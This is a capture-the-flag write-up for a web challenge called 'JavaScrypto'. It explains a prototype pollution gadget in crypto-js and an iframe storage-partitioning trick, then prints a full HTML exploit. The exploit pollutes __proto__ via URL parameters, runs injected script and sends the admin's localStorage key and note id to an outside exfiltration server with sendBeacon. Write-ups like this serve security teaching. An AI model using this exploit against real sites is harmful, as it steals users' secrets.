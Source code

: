 ### JavaScrypto

The challenge was about finding a Prototype Pollution gadget in `https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.2.0/crypto-js.min.js`. 
We found out that we could pollute `_reverseMap` and cause decryption to return arbitrary content. 

We needed to steal admin's `key` and `note id` from `localStorage` but displaying a malicious note would replace these values. 
We used the fact that the storage in Chrome is partitioned by `<top_site, frame_site>` so by executing the XSS inside iframe we wouldn't overwrite admin's secrets.
Then from that iframe we can open a window to read the secrets and decrypt the flag.

Final exploit below:

```html
<body></body>
<script>    
var ifr = document.createElement('iframe');

var url = new URL(`http://web:3000/?id=e8b8f64f-9eea-4dd5-a01a-bcd1fbf403b5&__proto__[_reverseMap][320]=0&__proto__[_reverseMap][321]=1&__proto__[_reverseMap][322]=2&__proto__[_reverseMap][323]=3&__proto__[_reverseMap][324]=4&__proto__[_reverseMap][325]=5&__proto__[_reverseMap][326]=6&__proto__[_reverseMap][327]=7&__proto__[_reverseMap][328]=8&__proto__[_reverseMap][329]=9&__proto__[_reverseMap][330]=10&__proto__[_reverseMap][331]=11&__proto__[_reverseMap][332]=12&__proto__[_reverseMap][333]=13&__proto__[_reverseMap][334]=14&__proto__[_reverseMap][335]=15&__proto__[_reverseMap][336]=16&__proto__[_reverseMap][337]=17&__proto__[_reverseMap][338]=18&__proto__[_reverseMap][339]=19&__proto__[_reverseMap][340]=20&__proto__[_reverseMap][341]=21&__proto__[_reverseMap][342]=22&__proto__[_reverseMap][343]=23&__proto__[_reverseMap][344]=24&__proto__[_reverseMap][345]=25&__proto__[_reverseMap][352]=26&__proto__[_reverseMap][353]=27&__proto__[_reverseMap][354]=28&__proto__[_reverseMap][355]=29&__proto__[_reverseMap][356]=30&__proto__[_reverseMap][357]=31&__proto__[_reverseMap][358]=32&__proto__[_reverseMap][359]=33&__proto__[_reverseMap][360]=34&__proto__[_reverseMap][361]=35&__proto__[_reverseMap][362]=36&__proto__[_reverseMap][363]=37&__proto__[_reverseMap][364]=38&__proto__[_reverseMap][365]=39&__proto__[_reverseMap][366]=40&__proto__[_reverseMap][367]=41&__proto__[_reverseMap][368]=42&__proto__[_reverseMap][369]=43&__proto__[_reverseMap][370]=44&__proto__[_reverseMap][371]=45&__proto__[_reverseMap][372]=46&__proto__[_reverseMap][373]=47&__proto__[_reverseMap][374]=48&__proto__[_reverseMap][375]=49&__proto__[_reverseMap][376]=50&__proto__[_reverseMap][377]=51&__proto__[_reverseMap][303]=52&__proto__[_reverseMap][304]=53&__proto__[_reverseMap][305]=54&__proto__[_reverseMap][306]=55&__proto__[_reverseMap][307]=56&__proto__[_reverseMap][308]=57&__proto__[_reverseMap][309]=58&__proto__[_reverseMap][310]=59&__proto__[_reverseMap][311]=60&__proto__[_reverseMap][312]=61&__proto__[_reverseMap][298]=62&__proto__[_reverseMap][302]=63`);
url.searchParams.set('code', `var win=window.open('http://web:3000/');setTimeout(()=>{navigator.sendBeacon('https://exfil-server.com', [win.localStorage.getItem('key'), win.localStorage.getItem('currentId')])},1000);`);
ifr.src = url.href;
document.body.appendChild(ifr);
</script>
```
